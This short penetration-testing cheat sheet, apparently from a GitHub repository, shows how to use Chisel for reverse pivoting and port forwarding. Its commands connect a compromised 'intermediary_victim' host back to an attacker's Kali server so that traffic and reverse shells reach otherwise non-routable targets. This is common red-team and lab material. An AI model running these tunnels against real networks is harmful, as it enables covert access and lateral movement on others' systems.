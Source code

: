 #### -- Reverse Pivot -- ####

Chisel is like SSH tunneling but everything is reversed.

Victim tunnels to hacker.

Victim == client

Hacker == server

https://github.com/richardcurteis/Cheat-Sheets-and-Guides/blob/master/Reverse%20Pivot.png

Set up server to listen on port 8000. Be verbose...

```kali:~# chisel server -p 8000 -reverse -v```

Create client and connect to server on port n and tell server which port to open (ip:port) and then where to forward traffic to, ```$target_ip:$target_port``` from that opened port.

```intermediary_victim:~# chisel client $kali_ip:8000 R:127.0.0.1:8001:$target_ip:$target_port```

NOTE: *Look at fingerprint option to ensure client only connects to intended servers*

Example: ```... --fingerprint 11:22:33...```

#### -- Port Forward/Local Pivot -- ####

If we have a shell on a non-routable mnachine to our attacking machine, set up the port forward on a machine that can connect to both and forward traffic through.

Once set up send reverse shell etc to intermediary machine to be routed through to attacker.

##### Spin up server on kali #####
```kali:~# chisel server -p 8000 -reverse -v```

##### Link client to server and forward traffic on localhost from 9001 to address foo on port bar. #####

```chisel client $kali_ip:8000 intermediary_port:target_ip:target_port```

```intermediary_victim:~# chisel client $kali_ip:8000 9001:127.0.0.1:8001```
